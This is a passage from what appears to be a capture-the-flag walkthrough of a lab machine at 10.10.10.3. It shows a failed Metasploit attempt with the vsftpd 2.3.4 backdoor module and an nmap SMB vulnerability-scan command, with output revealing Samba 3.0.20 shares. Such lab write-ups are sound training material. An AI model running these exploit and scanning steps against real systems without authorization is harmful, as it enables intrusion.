 ```
   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

I opened up `msfconsole`, used the `search` command to search for `vsftpd 2.3.4`. Once I found the module, you can simply type `use #` where `#` represents the number correlating to what was shown on the search command. In this case, it was `0` so `use 0`. I typed `options` to see what was needed for the exploit to work which was just `RHOSTS` which is the remote host aka the target we are attacking. I go ahead and run the `exploit` command nd the exploit doesn't work. Kind of a bummer. We can try this exploit again if for some reason it just wasn't working at this point but let's move on for now.

## SMB - 139/445 Enumeration

To start off my enumeration of SMB, I first like to run scans. This is a really good habit to get into as scans can just run in the background while you do more manual testing. I am going to run a basic SMB enumeration using NMAP NSE scripts to scan for any potentialvulnerabilities and to gather more information. 

```
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p139,445 -oA enum_smb -T4 -v 10.10.10.3 -d --stats-every 10s
```

```
PORT    STATE SERVICE      REASON                                                         
139/tcp open  netbios-ssn  syn-ack ttl 63                                                 
445/tcp open  microsoft-ds syn-ack ttl 63                                                 
                                                                                          
Host script results:                                                                      
| smb-enum-domains: 
|_  ERROR: Couldn't get info for the domain: MSRPC call returned a fault (packet type)
| smb-enum-groups: 
|_  ERROR: Couldn't enumerate groups: ERROR: No groups returned by samr_EnumDomainAliases()
| smb-enum-processes: 
|_  ERROR: MSRPC call returned a fault (packet type)
| smb-enum-shares: 
|   account_used: <blank>
|   \\10.10.10.3\ADMIN$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.10.10.3\IPC$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
```